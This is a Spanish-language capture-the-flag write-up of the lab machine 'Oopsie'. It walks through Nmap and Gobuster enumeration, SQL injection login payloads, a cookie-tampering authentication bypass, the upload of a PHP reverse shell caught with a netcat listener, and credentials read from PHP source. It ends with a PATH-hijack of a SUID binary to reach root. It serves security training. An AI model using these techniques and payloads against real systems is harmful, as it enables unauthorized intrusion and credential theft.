# Information Gathering

## Nmap

Comencé el reconocimiento ejecutando un escaneo de Nmap con scripts por defecto y pruebas de vulnerabilidades

```java
❯ nmap -sV -sC -T5 --max-retries=1 -p- --open 10.129.95.191
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-12 10:37 -05
Nmap scan report for 10.129.95.191
Host is up (0.097s latency).
Not shown: 62940 closed tcp ports (reset), 2593 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.88 seconds
```

Del output anterior podemos ver que los puertos **22** (SSH) y **80** (HTTP) están abiertos. El servicio web en el puerto 80 será nuestro punto de entrada principal.



\ **Figure 1:** Resultado del escaneo Nmap

## Reconocimiento Web

Exploramos el servicio web en el puerto 80. La página principal muestra un mensaje de bienvenida y requiere autenticación para acceder a ciertos servicios.




\ **Figure 2:** Página principal del servicio web

\ **Figure 3:** Mensaje de acceso restringido

Para mapear mejor la aplicación web, utilicé **Burp Suite** activando el proxy manual en el navegador Firefox para interceptar y analizar las peticiones HTTP.



\ **Figure 4:** Configuración del proxy en Firefox

Una vez activado el proxy, recargamos la página y observamos el mapeo de la aplicación en la sección **Target** de Burp Suite.



\ **Figure 5:** Mapeo de la aplicación en Burp Suite

En el mapeo descubrimos una ruta interesante: `/cdn-cgi/login`. Accedemos directamente a esta ruta en el navegador (desactivando el proxy).



\ **Figure 6:** Panel de login

Encontramos un panel de login. Intentamos algunas técnicas de inyección SQL como:

```
' or '1' =='1
' OR '1'='1';
' OR '1'='1'; drop table users;
admin'#
```

Sin embargo, estas técnicas no tuvieron éxito. Observamos que existe una opción para **"login as guest"**, que nos permite acceder con privilegios limitados.



\ **Figure 7:** Vista de usuario guest

Como usuario guest, tenemos acceso a varias opciones. En la sección **Account** encontramos un **Access ID** y un **email** que podrían ser útiles más adelante. En la opción **Uploads** encontramos algo interesante.



\ **Figure 8:** Sección de Uploads restringida

La sección de subida de archivos requiere privilegios de **super admin**. Esto podría ser útil para intentar subir una reverse shell si logramos obtener permisos de administrador.

Observamos que en la URL de la sección Account tenemos un parámetro `id`: `http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2`. Si modificamos este parámetro a `id=1`, obtenemos información del administrador.



\ **Figure 9:** Información del administrador (id=1)

A pesar de cambiar el `id=1` en la URL, al intentar acceder a **Uploads** sigo siendo tratado como guest. Esto sugiere que la autenticación se basa en **cookies de sesión** en lugar de parámetros de URL. Intenté modificar las cookies para elevar mis privilegios.

# Exploitation

## Bypass de Autenticación mediante Manipulación de Cookies

Modificamos las cookies de sesión usando las herramientas de desarrollador del navegador. Cambiamos el valor de `role` de `guest` a `admin` y en `user` colocamos el valor que obtuvimos al cambiar el `id` en la URL al del administrador.



\ **Figure 10:** Cookies modificadas

Al recargar la página después de modificar las cookies, obtenemos acceso completo a la sección **Uploads** como administrador.

## File Upload y Reverse Shell

Ahora que tenemos privilegios de administrador, podemos subir archivos. Visitamos [revshells.com](https://www.revshells.com/) para obtener un payload de reverse shell en PHP. Para este caso utilizamos el reverse shell de **pentestmonkey** en PHP.

Copiamos el código, lo guardamos en un archivo local (por ejemplo `wint1.php`) y lo subimos a través de la página de uploads de la víctima.



\ **Figure 11:** Reverse shell subida exitosamente

Antes de ejecutar la reverse shell, debemos configurar un listener en nuestra máquina para recibir la conexión. Ejecutamos `nc -lvnp 9001` en una terminal (el puerto y la IP ya fueron configurados en el payload de revshells.com).

Para encontrar dónde se guardó el archivo subido, utilizamos **Gobuster** para enumerar directorios:

```java
❯ gobuster dir --url http://10.129.95.191/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/index.php            (Status: 200) [Size: 10932]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
Progress: 5312 / 175330 (3.03%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 5345 / 175330 (3.05%)
===============================================================
Finished
===============================================================
```

Detenemos el escaneo al encontrar el directorio `/uploads`, que es donde probablemente se guardó nuestro archivo.

## Foothold

Accedemos a la reverse shell ejecutándola directamente desde el navegador: `http://10.129.95.191/uploads/wint1.php`. Si no funciona inmediatamente, puede ser necesario recargar la página donde subimos el archivo para que la actualización de cookies tenga efecto.



\ **Figure 12:** Reverse shell ejecutada

En nuestra terminal que estaba escuchando en el puerto 9001, recibimos la conexión:

```bash
❯ nc -lvnp 9001
listening on [any] 9001 ...

connect to [10.10.XX.XX] from (UNKNOWN) [10.129.95.191] 38300
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:16:16 up  1:42,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ $ 
$
```

Hemos obtenido una shell básica como usuario `www-data`. Para mejorar la interactividad de la shell, ejecutamos:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Explicación del comando:**
- `-c`: Ejecuta el código Python directamente sin necesidad de crear un archivo `.py`
- `import pty`: Importa el módulo estándar `pty` (pseudoterminal) de Python, que permite crear y controlar terminales simuladas
- `pty.spawn("/bin/bash")`: Crea un nuevo proceso bash que se ejecuta dentro de un pseudoterminal, proporcionando una shell más interactiva con características como historial, autocompletado y control de trabajos

## User Flag

Exploramos el sistema para encontrar la flag de usuario. Comenzamos en el directorio `/home`:

```bash
$ python3 -c 'import pty;pty.spawn("bin/bash")'
www-data@oopsie:/$ ls
ls
bin    dev   initrd.img      lib64	mnt   root  snap  tmp	vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr	vmlinuz.old
cdrom  home  lib	    media	proc  sbin  sys   var
www-data@oopsie:/$ cd home
cd home
www-data@oopsie:/home$ ls
ls
robert
www-data@oopsie:/home$ cd robert
cd robert
www-data@oopsie:/home/robert$ ls
ls
user.txt
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```



\ **Figure 13:** User flag obtenida

# Privilege Escalation

## Enumeración y Obtención de Credenciales

Ahora necesitamos escalar privilegios para obtener acceso root. Comenzamos explorando el sistema, especialmente los archivos de la aplicación web que podrían contener credenciales.

Exploramos el directorio web en `/var/www/html`:

```bash
www-data@oopsie:/$ cd var
cd var
www-data@oopsie:/var$ ls
ls
backups  crash	local  log   opt  snap	tmp
cache	lib	lock   mail  run  spool  www
www-data@oopsie:/var$ cd www
cd www
www-data@oopsie:/var/www$ ls
ls
html
www-data@oopsie:/var/www$ cd html
cd html
www-data@oopsie:/var/www/html$ ls
ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
www-data@oopsie:/var/www/html$ cd cdn-cgi
cd cdn-cgi
www-data@oopsie:/var/www/html/cdn-cgi$ ls
ls
login
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
```

Buscamos credenciales en los archivos PHP usando `grep`:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep -i passw*
cat * | grep -i passw*
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

Encontramos las credenciales del administrador. También revisamos el archivo `db.php` que contiene credenciales de base de datos:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Encontramos las credenciales del usuario `robert`. Intentamos cambiar a este usuario:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$
```

Hemos obtenido acceso como usuario `robert`. Verificamos los permisos de sudo:

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ sudo -l
```

El comando `sudo -l` nos indica que `robert` no tiene permisos sudo para escalar a root. Verificamos los grupos a los que pertenece:

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

El usuario `robert` pertenece al grupo `bugtracker`. Este grupo puede tener archivos interesantes. Buscamos archivos que pertenezcan a este grupo:

```bash
robert@oopsie:/$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

Encontramos un binario `/usr/bin/bugtracker` que pertenece al grupo `bugtracker`.

Verificamos los permisos del binario para entender sus capacidades:

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

**Análisis de permisos:**
- `-rwsr-xr--`: El bit `s` en la posición de ejecución del propietario indica que el binario tiene el **bit SUID** configurado
- El propietario es `root` y el grupo es `bugtracker`
- Esto significa que cuando cualquier usuario ejecuta este binario, se ejecuta con los privilegios del propietario (root)
- El comando `file` confirma que es un binario ELF 64-bit con setuid habilitado

## Explotación del Binario bugtracker

Ejecutamos el binario para entender su funcionamiento:

```bash
robert@oopsie:/$ cd /usr/bin
cd /usr/bin
robert@oopsie:/usr/bin$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123
123
---------------

cat: /root/reports/123: No such file or directory
```

El binario solicita un Bug ID y luego intenta leer un archivo usando el comando `cat`. Observamos que intenta acceder a `/root/reports/123`, lo que sugiere que el binario tiene permisos para leer archivos en el directorio `/root/reports/`.

El problema es que el binario utiliza `cat` sin especificar la ruta completa. Esto nos permite explotar una vulnerabilidad de **PATH hijacking**. Podemos crear nuestro propio ejecutable `cat` que ejecute una shell, y modificar la variable de entorno `PATH` para que el sistema busque primero en nuestro directorio.

Creamos un ejecutable malicioso llamado `cat` en `/tmp`:

```bash
robert@oopsie:/tmp$ echo "/bin/sh" > cat
echo "/bin/sh" > cat
robert@oopsie:/tmp$ ls
ls
cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
```

Modificamos la variable de entorno `PATH` para que `/tmp` sea el primer directorio en la búsqueda:

```bash
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH 
robert@oopsie:/tmp$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Ahora ejecutamos nuevamente el binario `bugtracker`. Cuando el binario intente ejecutar `cat`, el sistema buscará primero en `/tmp` y encontrará nuestro ejecutable malicioso:

```bash
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123
123
---------------

# whoami
whoami
root
# cd ~
cd ~
# ls
ls
user.txt
# cd ..
cd ..
# ls
ls
robert
# cd ..
cd ..
# ls
ls
bin    dev   initrd.img      lib64  mnt   root  snap  tmp   vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.
old
cdrom  home  lib        media   proc  sbin  sys   var
# cd root
cd root
# ls
ls
reports  root.txt
# cat root.txt
cat root.txt
# type root.txt
type root.txt
root.txt: not found
```

Finalmente, obtuvimos acceso como root, el binario `bugtracker` tiene el **bit SUID** configurado (como verificamos anteriormente con `ls -la`), lo que significa que se ejecuta con privilegios de root. Al manipular la variable `PATH` y crear nuestro propio ejecutable `cat` malicioso, el binario ejecutó nuestro `cat` con privilegios de root, otorgándonos una shell como usuario root.

Cuidado, como modificamos cat, entonces ahora no funciona, pero podemos usar otra tecnica como less.

## Root Flag

Ahora podemos acceder al directorio `/root` y leer la flag:

```bash
# cd /root
# ls
ls
reports  root.txt
# less root.txt
less root.txt
WARNING: terminal is not fully functional
root.txt  (press RETURN)	
af13b0bee69f8a877c3faf667f7beacf
root.txt (END)
```



\ **Figure 14:** Root flag obtenida

# Conclusion

La máquina **Oopsie** fue una excelente práctica que me mostró varios conceptos importantes de seguridad web y escalada de privilegios en Linux.

**Puntos clave aprendidos:**

